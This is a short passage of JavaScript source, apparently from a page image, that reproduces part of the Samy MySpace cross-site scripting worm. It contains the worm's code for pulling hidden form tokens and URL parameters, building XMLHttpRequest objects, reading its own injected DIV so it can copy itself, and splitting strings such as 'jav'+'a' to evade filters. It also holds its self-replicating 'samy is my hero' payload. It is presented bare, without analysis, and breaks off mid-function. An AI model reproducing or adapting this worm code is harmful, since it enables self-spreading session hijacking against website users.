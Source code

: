 ```

      function getHiddenParameter(BF,BG){
        return findIn(BF,'name='+B+BG+B+' value='+B,B)
      }

      function getFromURL(BF,BG){
        var T;
        if(BG=='Mytoken'){
          T=B
        }else{
          T='&'
        }

        var U=BG+'=';
        var V=BF.indexOf(U)+U.length;
        var W=BF.substring(V,V+1024);
        var X=W.indexOf(T);
        var Y=W.substring(0,X);
        return Y
      }

      function getXMLObj(){
        var Z=false;
        if(window.XMLHttpRequest){
          try{
            Z=new XMLHttpRequest()
          }catch(e){
            Z=false
          }
        }else if(window.ActiveXObject){
          try{
            Z=new ActiveXObject('Msxml2.XMLHTTP')
          }catch(e){
            try{
              Z=new ActiveXObject('Microsoft.XMLHTTP')
            }catch(e){
              Z=false
            }
          }
        }
        return Z
      }

      var AA=g();
      var AB=AA.indexOf('m'+'ycode');
      var AC=AA.substring(AB,AB+4096);
      var AD=AC.indexOf('D'+'IV');
      var AE=AC.substring(0,AD);
      var AF;

      if(AE){
        AE=AE.replace('jav'+'a',A+'jav'+'a');
        AE=AE.replace('exp'+'r)','exp'+'r)'+A);
        AF=' but most of all, samy is my hero. <d'+'iv id='+AE+'D'+'IV>'
      }

      var AG;

      function getHome(){
        if(J.readyState!=4){
          return
        }

```